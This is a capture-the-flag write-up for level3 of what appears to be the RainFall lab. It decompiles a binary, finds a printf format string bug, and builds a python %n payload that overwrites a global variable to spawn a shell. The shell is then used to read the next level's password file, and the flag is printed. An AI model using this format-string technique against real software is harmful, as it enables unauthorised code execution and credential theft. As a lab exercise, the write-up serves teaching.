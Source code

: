 get the binary on host
* `scp -P 4242 level3@192.168.56.107:./level3 ./binary/level3`

decompile using ghidra

When we disasemble the main function, we can see the main call a v() function 

 0x08048520 <+6>:     call   0x80484a4 <v>

 in c does this:

```c
unsigned int m;

void v(void)
{
  char buffer[520];
  
  fgets(buffer,520,stdin);
  printf("%s", buffer);
  if (m == 0x40)    --> 64 in decimal
  {
    fwrite("Wait what?!\n",1,stdout);
    system("/bin/sh");
  }
  return;
}

 void main(void)
{
  v();
  return;
}

```
The program is simple, it's calling function v() wich check if the value of m, a global unitialize variable, is equal to 64.
If it is, then it launch a shell so we can get our .pass.

fgets is protected against buffer overflow, but there is an exploit called string attack we can use on printf.
It uses the %n modifier wich writes the number of bytes into a pointer.
The goal is to use the modifier '%n' to change the m value at the right place on the stack.

first we need to get the address of m, quick look on ghidra, it is: 0804988c

Now we have to display the memory address in the stack until we reach that address:

level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08 %x %x %x %x %x'" > /tmp/file

level3@RainFall:~$ cat /tmp/file | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c 20782520

So we can count 3 addresses before m, and 4 including it. Now we can build our exploit:

python -c "print '\x8c\x98\x04\x08' + 'z'* 60 + '%4\$n'" > /tmp/file

we write 60 bytes, the '4\$' inf the '%n' modifier is here to tell the fonction to skip the 3 addresses so we are a the good position in the stack.\
60 bytes + \x8c\x98\x04\x08 wich is 4 bytes makes 64 written to the m variable address (\x8c\x98\x04\x08)
```
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '\x90' * 60 + '%4\$n'" > /tmp/exploit_3 ; cat /tmp/exploit_3 - | ./level3`
�������������������������������������������������������������
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
